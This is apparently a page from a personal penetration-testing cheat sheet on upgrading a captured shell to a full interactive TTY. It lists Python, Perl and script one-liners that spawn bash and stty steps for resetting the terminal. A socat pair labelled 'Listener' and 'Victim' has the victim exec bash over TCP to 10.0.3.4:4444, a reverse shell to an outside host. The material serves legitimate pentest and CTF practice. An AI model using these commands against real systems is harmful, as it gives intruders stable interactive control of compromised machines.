 # Interactive Shell

### [Spawn Shells](https://github.com/iptracej/MyPentestCheatsheet/blob/main/FullTTYs.md#spawn-shells) <a href="#user-content-spawn-shells" id="user-content-spawn-shells"></a>

Using STTY options, run one of the followings:

```
python -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
echo os.system('/bin/bash')
/bin/sh -I
script -qc /bin/bash /dev/null
perl -e 'exec "/bin/sh";'
```

Then, run:

```
ctrl-z

echo $TERM
stty raw -echo
fg
reset

export SHELL=bash
export TERM=screen-256color
stty rows 61 columns 205
```

### [Other ways to spawn Shells](https://github.com/iptracej/MyPentestCheatsheet/blob/main/FullTTYs.md#other-ways-to-spawn-shells) <a href="#user-content-other-ways-to-spawn-shells" id="user-content-other-ways-to-spawn-shells"></a>

Using socat

```
#Listener:
socat file:`tty`,raw,echo=0 tcp-listen:4444

#Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

Reference: [https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)
